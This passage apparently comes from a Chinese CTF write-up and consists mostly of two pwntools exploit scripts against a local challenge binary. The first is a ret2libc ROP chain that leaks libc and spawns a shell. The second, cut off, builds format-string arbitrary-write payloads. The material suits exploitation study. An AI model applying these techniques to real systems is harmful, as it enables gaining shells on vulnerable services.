 
```python
from pwn import*
import base64
context(os='linux',arch='amd64',log_level='debug')
n = process('./pwn')
elf = ELF('./pwn')
libc = elf.libc
pop_ret = 0x400db3
user_id = base64.b64decode("bmVwaXJl")
n.recvuntil('id')
n.sendline(str(user_id))
n.recvuntil('\x8d\n')
payload = 'a'*0x38+p64(pop_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(0x400C1E)
n.sendline(payload)
libcbase = u64(n.recvuntil('\x7f')[-6:]+'\x00\x00')-libc.sym['puts']
print hex(libcbase)
system = libcbase + libc.sym['system']
sh = libcbase + libc.search('/bin/sh').next()
n.recvuntil('\x8d\n')
payload = 'a'*0x38+p64(pop_ret)+p64(sh)+p64(system)
n.sendline(payload)
n.sendline("cat flag")
n.interactive()
```
然后是把程序内栈溢出全部patch的情况，这时就是用格式化字符串来打

```python
from pwn import*
import base64
context(os='linux',arch='amd64',log_level='debug')
n = process('./pwn')
elf = ELF('./pwn')
libc = elf.libc
def fmtstr(offset, addr, data, written=0):
	cnt = 0
	payload = ''
	address = ''
	for x in data:
		cur = ord(x)
		if cur >= written&0xff:
			to_add = cur - (written&0xff)
		else:
			to_add = 0x100 + cur - (written&0xff)
		round = ''
		if to_add != 0:
			round += "%{}c".format(to_add)
		round += "%{}$hhn".format(offset+cnt+len(data)*2)
		assert(len(round) <= 0x10)
		written += to_add + 0x10 - len(round)
		payload += round.ljust(0x10, '_')
		address += p64(addr+cnt)
		cnt+=1
	return payload + address

pop_ret = 0x400db3
admin_id = base64.b64decode("NzE2NTIyMwo=")
n.recvuntil('id')
n.send(str(admin_id))
n.recvuntil('\xa4\n')
payload ="%9$p"
n.sendline(payload)
n.recvuntil('0x')
libcbase = int(n.recv(12),16)-0x5f1168
system = libcbase + libc.sym['system']
```